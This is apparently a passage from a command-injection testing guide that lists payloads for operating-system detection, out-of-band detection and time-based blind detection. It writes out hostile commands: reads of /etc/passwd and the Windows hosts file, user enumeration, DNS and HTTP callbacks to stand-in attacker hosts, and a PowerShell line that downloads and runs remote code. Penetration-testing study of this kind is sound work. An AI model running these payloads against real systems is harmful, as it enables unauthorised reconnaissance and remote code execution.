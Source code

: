 #### OS Detection Tests

Identifies target operating system using specific commands:

```bash
# Windows specific commands
ver                  # Shows Windows version
systeminfo          # Detailed system information
type C:\Windows\System32\drivers\etc\hosts  # Reads hosts file
net user            # Lists users
dir C:\             # Lists root directory

# Linux specific commands
uname -a            # Kernel and system information
cat /etc/issue      # Distribution information
cat /proc/version   # Kernel version information
lsb_release -a      # Distribution details
cat /etc/passwd     # User account information
```

#### Out-of-Band Tests

Tests command injection through external interaction detection:

```bash
# DNS based detection
nslookup uniquestring.attackerdomain.com  # Generates DNS lookup
ping uniquestring.attackerdomain.com      # ICMP based detection
dig uniquestring.attackerdomain.com       # DNS query tool

# HTTP based detection
wget http://attacker.com/uniquestring     # Generates HTTP GET
curl http://attacker.com/uniquestring     # Alternative HTTP request
powershell IEX(New-Object Net.WebClient).downloadString('http://attacker.com') # PowerShell web request
```

#### Time-Based Tests

Verifies command execution through time delays:

```bash
# Linux delay commands
ping -c 10 127.0.0.1    # 10 second delay using ping
sleep 10               # Direct delay command
perl -e "sleep 10"     # Perl based delay
python -c "import time; time.sleep(10)"  # Python delay

# Windows delay commands
ping -n 10 127.0.0.1   # Windows ping delay
timeout 10             # Windows timeout command
Start-Sleep -s 10      # PowerShell sleep
```

### Automated Discovery
